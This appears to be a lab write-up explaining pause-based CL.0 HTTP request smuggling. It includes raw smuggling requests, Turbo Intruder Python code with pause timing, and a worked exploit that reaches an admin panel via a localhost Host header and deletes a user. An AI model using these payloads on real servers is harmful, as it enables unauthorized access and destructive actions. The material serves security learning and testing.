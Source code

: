 There are many quite secure websites that can contain hidden desync vulnerabilities that can be revealed if you pause mid-request.

Servers usually are configured with a read timeout, and if they don't receive any more data for an amount of time, they treat the request as complete and issue a response. This regardless of how many bytes they were told to expect.

Pause based desync vulnerabilities can occur when a server times out a request but leaves the connection open for reuse.

## Server-side pause-based desync

It is dependent on some conditions:
- Frontend must immediately forward each byte of the request to the backend rather than waiting until it has received the full request.
- Frontend must not time out requests before the backend.
- Backend must leave the connection open for reuse following a read timeout.

### Example

Let's consider a CL.0 request smuggling attack scenario:

```http
POST /example HTTP/1.1
Host: vulnerable-website.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```

Now, what happens if we send the headers, but pause before sending the body?

- Frontend forwards the headers to the backend, and waits for the remaining bytes.
- After some time, backend times out and sends a response, and now the frontend may or may not read this response and forward to us.
- We send the body, which has a request smuggling prefix.
- Frontend treats this as a continuation of the initial request and forwards this to the backend down the same connection.
- Backend has responded to the initial request, so now thinks that these bytes are another request.

### Testing for pause based CL.0

In Repeater, create a CL.0 request smuggling probe like the one above, send it to `Turbo Intruder`.

In `Turbo Intruder`'s Python editor, adjust the request engine configuration to the following options:

```text
concurrentConnections=1
requestsPerConnection=100
pipeline=False
```

Queue the request and add the following arguments to the `queue()` interface:

`pauseMarker` - A list of strings after which you want to pause.
`pauseTime` - pause in ms.

Queue an arbitrary follow-up request as normal:

`followUp = 'GET / HTTP/1.1\r\nHost: vulnerable-website.com\r\n\r\n' engine.queue(followUp)`

Be sure that you are logging all the responses:

```python
def handleResponse(req, interesting):
    table.add(req)
```

# Exploiting pause-based desync attacks

The frontend streamas requests to the backend, and the backend doesn't close hte connection after a timeout on some endpoints.

The goal is to identify a pause-based CL.0 desync vector, smuggle a request to the admin at `/admin` and delete the user `carlos`.

Find an on-site redirect, and in our case is `lab.com/resources` which redirects to `lab.com/resources/`

Install `Turbo Intruder` extension, and send his request to the Turbo Intruder.

Change the request to `POST` and add a smuggled request like in CL.0, that tries to access `/admin/`. Also don't forget to add `Connection: keep-alive`.

```http
POST /resources HTTP/1.1
Host: lab.net
Cookie: session =...
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /admin/ HTTP/1.1
Host: lab.net
```

And modify the `Python` code part as follows:

```Python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=500,
                           pipeline=False
                           )

    engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=61000)
    engine.queue(target.req)

def handleResponse(req, interesting):
    table.add(req)
```


In the first request we got a `302` and in the second there is a `401 Unauthorized` and `Admin interface only available to local users`.

In this case let's put `localhost` in the Host of the smuggled request.

And we're inside the admin panel, where it asks us for a username and there is a button to `Delete user`:

![](../../../../images/Pasted_image_20250120145134.png)

But for that our smuggled request needs to be a `POST` and not a `GET`. In the `HTML` that was returned we got a lot of information such as `csrf, action`.

Now let's edit our smuggled request:

```http
POST /resources HTTP/1.1
Host: 0a4b00750429868981989d94007c001a.web-security-academy.net
Cookie: session=FpdxixgCl7dcLByFAvM9TGGuxbqjCn2q
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 171

POST /admin/delete/ HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

csrf=KnKcB6Gamprqao6cSwbz2MzUMQ3CTpvq&username=carlos
```

Very important is the `Content-Length` as you need to calculate for both the body of the smuggled request which in this case is 53, and the complete body of the first request which is 171.

Then in the Python code, change the `pauseMarker`:

```python
...
engine.queue(target.req, pauseMarker=['Content-Length: 171\r\n\r\n'], pauseTime=61000)
...
```

This, because if we leave as before with `\r\n\r\n` then it will pause two times, and we have to differentiate between them.

Now send it, and the response to the second request is:

```http
HTTP/1.1 302 Found
Location: /
Set-Cookie: session=cQBLRASV9VznhaGMEnCibhhjLfieb8CL; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Server: Apache/2.4.52
Keep-Alive: timeout=120
Content-Length: 0
```

Meaning that the user `carlos` has been deleted, and the lab has been solved.
